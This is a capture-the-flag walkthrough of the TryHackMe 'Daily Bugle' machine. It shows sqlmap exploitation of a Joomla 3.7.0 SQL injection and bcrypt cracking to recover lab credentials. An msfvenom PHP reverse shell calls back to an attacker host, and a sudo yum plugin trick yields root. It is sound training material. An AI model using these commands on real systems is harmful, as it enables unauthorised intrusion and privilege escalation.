 # Daily Bugle TryHackMe Walkthrough

**Author:** Adrian Korwel 

**Difficulty:** Hard  

**Objective:** Gain root access and retrieve the flags

---


## Overview

In this report, I document how I compromised the "Daily Bugle" machine on TryHackMe using only the information provided and publicly available resources. The goal was to gain user and root access, capturing both the user and root flags along the way.

---

## 1. Reconnaissance

I began with a basic Nmap scan to enumerate open ports and services:

```bash
nmap -sS -sV -O 10.10.171.13
```

**Results:**

* Port 22: SSH (OpenSSH 7.4, protocol 2.0)
* Port 80: HTTP (Apache 2.4.6, PHP/5.6.40)
* Port 3306: MySQL/MariaDB (unauthorized)
* Hostname: ip-10-10-162-223.eu-west-1.compute.internal
* MAC Address: 02:72:4F:1F:35:95 (Unknown)
* OS: Linux 3.10–3.13 (likely CentOS 7 based on Apache/PHP combo)

**Additional Enumeration:**

* Visiting the website at `http://10.10.171.13` revealed a Joomla-based CMS but no obvious login or author paths.
* Discovered `/administrator` endpoint manually and confirmed Joomla login interface.
* Inspected the HTTP headers and `robots.txt` which disallowed access to common Joomla directories.
* Detected Joomla! version 3.7.0 from page source and HTTP responses.

---

## 2. Web Enumeration

Visiting `http://10.10.171.13`, I saw a Joomla-based news site. I used gobuster to find additional directories:

```bash
gobuster dir -u http://10.10.171.13 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

**Findings:**

* /administrator
* /robots.txt
* Other Joomla-specific directories

Visiting `/administrator` revealed a Joomla admin login page. By checking `/administrator/manifests/files/joomla.xml`, I confirmed the Joomla version was **3.7.0**.

---

## 3. Joomla 3.7.0 SQL Injection

Researching the Joomla version led to the discovery of **CVE-2017-8917**, a SQLi vulnerability in the `com_fields` component.

I used sqlmap to exploit this:

```bash
sqlmap -u "http://10.10.171.13/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent -p list[fullordering] --dbs
```

From this, I identified the `joomla` database. I then enumerated tables:

```bash
sqlmap -u "<same_url>" -p list[fullordering] --dbms=MySQL -D joomla --tables
```

I found `#__users` and dumped its contents:

```bash
sqlmap -u "<same_url>" -p list[fullordering] --dbms=MySQL -D joomla -T #__users --dump
```

**Credentials obtained:**

* Username: jonah
* Password Hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

This is a bcrypt hash format, which requires a dictionary attack to crack.

---

## 4. Cracking the Hash

I used John the Ripper with the rockyou wordlist:

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Password recovered:** `spiderman123`

---

## 5. Joomla Admin Login and Remote Code Execution

Logged into the admin panel at `/administrator` using:

* Username: jonah
* Password: spiderman123

I edited the Protostar template to include a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shell.php
```

Then set up a Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT 4444
run -j
```

Navigating to the shell file executed the payload, opening a Meterpreter session as the `apache` user.

---

## 6. Local Enumeration

I uploaded and ran `linpeas.sh`. It revealed the following:

* A user `jjameson`
* MySQL credentials in `/var/www/html/configuration.php`: `nv5uz9r3ZEDzVjNu`

---

## 7. Privilege Escalation to User `jjameson`

I attempted to switch user with the recovered password:

```bash
su jjameson
Password: nv5uz9r3ZEDzVjNu
```

It worked. As `jjameson`, I found the **user flag** in:

```bash
cat /home/jjameson/user.txt
```

---

## 8. Privilege Escalation to Root

Running `sudo -l` showed:

```bash
User jjameson may run the following commands on dailybugle:
  (ALL) NOPASSWD: /usr/bin/yum
```

From GTFOBins, I used the yum plugin exploit:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

This dropped me into a root shell. I confirmed with:

```bash
whoami
```

And retrieved the **root flag** from:

```bash
cat /root/root.txt
```

---

## Summary

* Initial access: SQLi in Joomla 3.7.0 → admin panel
* Remote code execution via template editing
* Local enumeration reveals user `jjameson` and credentials
* Lateral movement via `su`
* Privilege escalation via `sudo yum`

---

## Lessons Learned

- Documentation is essential: I initially missed a discovered password due to poor note-taking. Always record every detail, including credentials, versions, and paths.
- Credential reuse is common: The MySQL root password was reused by a system user. This reinforces the importance of testing credentials across multiple services and accounts.
- Web application vulnerabilities can lead to full system compromise: A simple SQL injection ultimately led to remote code execution and root access.
- Enumeration is key: Tools like linPEAS and thorough manual enumeration uncovered misconfigurations that enabled privilege escalation.
- Know your tools: Leveraging tools such as sqlmap, john, Metasploit, and GTFOBins was instrumental in navigating and exploiting this box efficiently.
- Validate findings with public CVEs and exploits: CVE-2017-8917 was publicly documented and exploited, saving time in developing a working attack chain.

---

### Flags

* **User flag**: /home/jjameson/user.txt
* **Root flag**: /root/root.txt
